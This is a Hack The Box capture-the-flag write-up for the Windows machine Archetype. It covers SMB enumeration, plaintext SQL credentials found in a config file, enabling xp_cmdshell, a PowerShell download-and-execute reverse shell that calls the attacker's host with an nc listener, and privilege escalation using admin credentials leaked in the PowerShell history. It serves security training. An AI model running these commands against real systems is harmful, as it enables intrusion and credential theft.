# [[HackTheBox] Archetype](https://www.hackthebox.eu/home/start)

**Date**: 28/Apr/2020  
**Categories**: [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows)  
**Tags**: [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login)  
**InfoCard**:  


## Overview
This is a writeup for HTB VM [`Archetype`](https://www.hackthebox.eu/home/start). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Tue Apr 28 07:55:10 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.archetype/results/10.10.10.27/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.archetype/results/10.10.10.27/scans/xml/_quick_tcp_nmap.xml 10.10.10.27
Increasing send delay for 10.10.10.27 from 0 to 5 due to 32 out of 106 dropped probes since last increase.
Nmap scan report for 10.10.10.27
Host is up, received user-set (0.29s latency).
Scanned at 2020-04-28 07:55:24 PDT for 59s
Not shown: 996 closed ports
Reason: 996 resets
PORT     STATE SERVICE      REASON          VERSION
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     syn-ack ttl 127 Microsoft SQL Server  14.00.1000.00
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-28T07:32:15
| Not valid after:  2050-04-28T07:32:15
| MD5:   1991 9c41 53a0 c167 df32 b67b 61b8 1d29
| SHA-1: 0e4e f065 a8c7 acbc 908f ee2e c308 1d69 b40f 5685
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQcwBdrws1MrBBCZkTyH2PuzANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjAwNDI4MDczMjE1WhgPMjA1MDA0MjgwNzMyMTVaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALSwuifA
| DN4ACMe7B70oBUbpTthzMerRWg72fCSLmJWqgVrfwqBd/jlqvF2ytwrydVvp0i0b
| bBzYnwOqVj2CpEoQCbN2VZPATo1tv6dSbht4BKHdLDQOyLcflcdg+Fl1W4XCPf7w
| b4kMSWQHrr/paE388hh+yW1jyohBGB93tAHRBRFRS0D6u7DcgZxbznvYPf4a4mZN
| P45cLa3FGTR3Oc6hHCjqKlW4L1P3IjTPfFeUIuW1/3PQHn7ox/1STvIERh/Pfy3X
| fkZ4Z5Mar8nxjqlIOnmv6AnXDt4mtnfTzIA+MAZQ3x7hO8iX73V83m8pCMZR90nB
| /uDq4ln4HctzarkCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAEj8vggUbVWKJOPG2
| nUHJ9T5umrpswOmmKk+S/cKY3BGqTL1ChttzWytF23SR53iIwFrYLXbApKCE8c8b
| T3zcI6YNsOgqm/HOlFNKIaQNeEnVCAMLcugLnca4QeL00ZAHTgmpaUU1V498fw7h
| HV1/EOTi2+gt+6QUmNanH0g18Bh0hWX8wwEI1zervPrFUlOzrczT6GJy/D4RiAKg
| iW26m2V+Iteo3syOlUQKSCcYsG3+Pwnx1j3SYL4tn68xwR9Jj+cfig/dT3oR1DJN
| 3s57f0jimwBlIbod2HEdQDpxuijqYszpjTjqnWCvIT3YZip/OLa/12PyU0zwnQE8
| /R2Bwg==
|_-----END CERTIFICATE-----
|_ssl-date: 2020-04-28T15:10:19+00:00; +14m11s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h38m11s, deviation: 3h07m50s, median: 14m11s
| ms-sql-info:
|   10.10.10.27:1433:
|     Version:
|       name: Microsoft SQL Server
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server
|_    TCP port: 1433
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 53066/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 9662/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45578/udp): CLEAN (Timeout)
|   Check 4 (port 47960/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-04-28T08:10:20-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-04-28 08:10:22
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 28 07:56:23 2020 -- 1 IP address (1 host up) scanned in 73.83 seconds

```

2\. We find `445/tcp` to be open and can use `smbclient` to check if it allows anonymous access:  
``` {.python .numberLines}
smbclient -N -L \\\\10.10.10.27

```

  

3\. We find a non-default share named `backups` which seems interesting. Let's explore further:  
``` {.python .numberLines}
smbclient -N \\\\10.10.10.27\\backups

```

  

4\. We find a `prod.dtsConfig` file on the SMB share. The `.dtsConfig` files are used by [SQL Server Integration Services (SSIS)](https://en.wikipedia.org/wiki/SQL_Server_Integration_Services). We find that this file contains plaintext credentials for the default SQL service user:  

  


### Findings
#### Open Ports:
``` {.python .numberLines}
135/tcp    msrpc         Microsoft Windows RPC
139/tcp    netbios-ssn   Microsoft Windows netbios-ssn
445/tcp    microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp   ms-sql-s      Microsoft SQL Server 14.00.1000.00
5985/tcp   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp  msrpc         Microsoft Windows RPC
49665/tcp  msrpc         Microsoft Windows RPC
49666/tcp  msrpc         Microsoft Windows RPC
49667/tcp  msrpc         Microsoft Windows RPC
49668/tcp  msrpc         Microsoft Windows RPC
49669/tcp  msrpc         Microsoft Windows RPC
```
#### Files
``` {.python .numberLines}
prod.dtsConfig
```
#### Users
``` {.python .numberLines}
sql: sql_svc
```

\newpage
## Phase #2: Exploitation
1\. Since the `1443/tcp` port is open for SQL service and we also have credentials for the default user, let's connect to the remote service and explore further:  
``` {.python .numberLines}
mssqlclient.py -windows-auth "sql_svc@10.10.10.27"

```

  

2\. We find that the user has `sysadmin` access (highest access level on SQL server) using the `IS_SRVROLEMEMBER` function. This allows us to enable `xp_cmdshell` to gain command execution:  
``` {.python .numberLines}
SELECT IS_SRVROLEMEMBER('sysadmin')

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

```

3\. Let's run the `whoami` command using the `xp_cmdshell` method and check our current privileges. We find that our current user `sql_svc` lacks `Administrator` access on the system:  
``` {.python .numberLines}
xp_cmdshell "whoami"

```

  

4\. Let's deploy a Powershell reverse shell on the system using `xp_cmdshell` to gain interactive access on the system:  
``` {.python .numberLines}
type shell.ps1
  xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.33/shell.ps1\");"
python3 -m http.server 80
ufw allow from 10.10.10.27 proto tcp to any port 80,443
nc -nlvp 443

```

  

  

  

  

5\. We can now read the `user.txt` flag:  
``` {.python .numberLines}
type C:\Users\sql_svc\Desktop\user.txt

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
sql_svc@ARCHETYPE> id
archetype\sql_svc
sql_svc@ARCHETYPE>  
sql_svc@ARCHETYPE> uname
Host Name:                 ARCHETYPE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
sql_svc@ARCHETYPE>  
sql_svc@ARCHETYPE> ifconfig
Ethernet adapter Ethernet0 2:
   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::f1b0:217c:824d:11d2
   Link-local IPv6 Address . . . . . : fe80::f1b0:217c:824d:11d2%7
   IPv4 Address. . . . . . . . . . . : 10.10.10.27
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:339d%7
                                       10.10.10.2
sql_svc@ARCHETYPE>  
sql_svc@ARCHETYPE> users
sql_svc
Administrator
```

\newpage
## Phase #3: Privilege Escalation
1\. With our interactive shell running, we can now begin exploring the system further. Since the current user is a normal as well as service axxount, let's look at the Powershell history file to find any interesting commands:  
``` {.python .numberLines}
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```

  

2\. We find that the `backups` drive has been mounted using administrative privileges and the credentials are leaked in plaintext within the history file. We can use these credentials to gain elevated access on the system:  
``` {.python .numberLines}
psexec.py administrator@10.10.10.27

```

  

3\. We can now read the `root.txt` flag:  
``` {.python .numberLines}
type C:\Users\Administrator\Desktop\root.txt

```

  


\newpage

## Loot
### Credentials
``` {.python .numberLines}
ssh: administrator/MEGACORP_4......
sql: sql_svc/M3g4c0r....
```
### Flags
``` {.python .numberLines}
C:\Users\sql_svc\Desktop\user.txt: 3e7b102e78218e935bf.............
C:\Users\Administrator\Desktop\root.txt: b91ccec3305e982400..............
```

## References
[+] <https://www.hackthebox.eu/home/start>  
